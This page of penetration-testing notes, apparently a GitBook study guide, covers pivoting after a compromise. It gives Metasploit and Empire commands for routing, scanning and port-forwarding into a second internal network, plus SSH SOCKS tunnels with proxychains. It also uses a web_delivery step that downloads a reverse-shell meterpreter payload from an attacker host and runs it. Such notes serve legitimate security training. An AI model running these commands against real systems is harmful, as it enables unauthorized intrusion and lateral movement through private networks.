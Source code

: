 # Pivoting

Pivoting is a post exploitation technique that involves utilizing a compromised host to attack other systems on the compromised host's private internal network.

<div data-full-width="false"><figure><img src="../../../.gitbook/assets/image (142).png" alt="" width="375"><figcaption><p>Pivoting Visualize</p></figcaption></figure></div>

## Pivoting with Metasploit

We have two target machine (Victim1 and Victim2), the Victim1 is in the our same subnet but the Victim2 not.

Check the network configuration of the Victim1 for understand what are the two different subnet.&#x20;

```bash
ipconfig
```

Once we got access to the Victim1 we can try to pivoting for scan the Victim2 via meterpreter. (run this command in meterpreter session of Victim1)&#x20;

```bash
# add route
run autoroute -s NETWORK_ID/MASK

# show route
run autoroute -p
```

We can rename the meterpreter sessions.&#x20;

```bash
sessions -n victim-1 -i SESSION
```

To discover ohters host in the pivoting network, we can use a arpscanner module of metasploit.

```bash
# meterpreter
use post/windows/gather/arp_scanner
set RHOSTS IP/MASK
set SESSIONS 
run
```

Use a portscan module to make a scan in the Victim2 (msfconsole)

```bash
use auxialiary/scanner/portscan/tcp
set RHOSTS VICTIM2_IP
run
```

## Portforwarding with Metasploit

When in the victim2 there is a service for exemple HTTP/S (port 80), to access via browser in the our kali machine we have to create a portforwarding. In the Victim1 meterpreter session run this commands:

```bash
portfwd add -l LOCAL_PORTFORWARDING -p VICTIM2_PORT_SERVICE -r VICTIM2_IP
# -l: local port that we want open to host the victim2 service
# -p: victim2 port with the service that we want view
# -r: victim2 IP
```

Now we can scan with db\_nmap the local port.

```bash
db_nmap -sS -sV -p LOCAL_PORTFORWARDING localhost
```

If the expoit dont run for the Victim2 try to change the payload with **bind\_tcp,** and set victim2 IP on the exploit, not "localhost".

***



## SSH Tunneling Pivoting

Once we have access to a machine with SSH credential we can create a tunnel to connect our machine to other networks.

Establish the tunnel on a local port

```bash
ssh -D $LOCAL_PORT $USER@$VICTIM1_IP
# ex ssh -D 8090 mario@192.168.3.2
```

Once we have the tunnel established, we have modify our proxy file and add this port.

```bash
nano /etc/proxychains.conf

# add follow line in the bottom
socks4 127.0.0.1 8090
```

Now using `proxychains` we can access to all port of all other network machines.

```bash
# this command to create a port fordward which allow us to see a web page
proxychains nc -nv $VICTIM2_IP $PORT_TO_FORWARD_ON_VICTIM2

# this command allow us to access via RDP to other machine in other network
proxychains rdesktop $VICTIM2_IP
```



***



## Pivoting PortScan with Empire

we are in a windows machine and we have to run portscanning in other machine via pivoting.

Follow this guide to start empire and connect windows target to it.

{% content-ref url="../../../tools/tools/powershell/powershell-empire-fundamentals.md" %}
[powershell-empire-fundamentals.md](../../../tools/tools/powershell/powershell-empire-fundamentals.md)
{% endcontent-ref %}

Interact with the target with this command:

```bash
interact NAME # get the name from agents empire table
```

Use and set the portscan empire module:

```bash
usemodule powershell/situational_awareness/portscan
set Hosts TARGET2_IP
execute
```

Once the scan will terminated and in the target 2 we can transfer the empire target to msfconsole to do port fordwarding.

## Portforwarding from Empire target

To do portfordwarding in a Empire target we need to use metasploit.

### Transfer Empire target to Metasploit

Use a web delivery to send a command to connect empire to metasploit

```bash
msfconsole
use exploit/multi/script/web_delivery
set target 2 # to select powershell target
set SRVHOST EMPIRE_SERVER_IP
set LHOST ATTACK_MACHINE
set payload windows/meterpreter/reverse_tcp
exploit
```

Copy the URL that the module generate.

Now we go into Empire client (interacting target session), use this module and set the value with URL copied:

```bash
usemodule powershell/code_execution/invoke_metasploitpayload
set URL https://..../.....
```

Then 5 second we can see that in our msfconsole we would have the new session with the target.

### Metasploit Portfordwarding

Use this automatic module that create a route between the network on a target to our local network

```bash
use post/multi/manage/autoroute
set SESSION 1
run
```

Now we utilize a module to host a target port in our system

```bash
use auxiliary/server/socks_proxy
set SRVHOST ATTACK_IP
run
```

Go to firefox settings, search proxy and select SOCKS Host in Manual proxy configuration. Write the Attack machine and the port selected in socks\_proxy msf module (default is 1080)

<figure><img src="../../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

Now we can connect via firefox searching the TARGET2 IP and hacker it if its vulnerable.

If the expoit dont run for the Victim2 try to change the payload with **bind\_tcp,** and set victim2 IP on the exploit, not "localhost".

***





